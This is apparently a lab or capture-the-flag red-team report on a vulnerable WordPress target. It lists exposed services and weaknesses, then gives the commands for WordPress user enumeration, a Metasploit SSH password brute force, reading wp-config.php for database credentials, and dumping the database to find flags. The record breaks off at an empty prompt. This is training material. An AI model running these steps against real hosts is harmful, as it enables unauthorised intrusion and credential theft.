 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
![NMAP scan](images/nmap_scan.png)
```

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPscan to enumerate users on Target 1
   - Commands:
```
wpscan --url http://192.168.1.110/wordpress -e u

```

`$ msfconsole`
` > search ssh_login`
` > use 0`
` > set rhost 192.168.1.110`
` > set username michael`
` > set pass_file /usr/share/wordlists/rockyou.txt`
` > set stop_on_success true`
` > run`

`> exit -y`
`$ ssh michael@192.168.1.110`

`$ grep -rnw / -e “flag1” 2> /dev/null`


  - `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ find / -iname “flag2*” 2> /dev/null`
`cat /var/www/flag2.txt`


  - `flag3`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ cat /var/www/html/wordpress/wp-config.php`

`$ mysqldump wordpress -u root -pR@v3nSecurity > dump`
`$ grep “flag3” dump`


Note: flag4 is located here as well

  - `flag4`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ mysql wordpress --user=root -pR@v3nSecurity`
`>  `



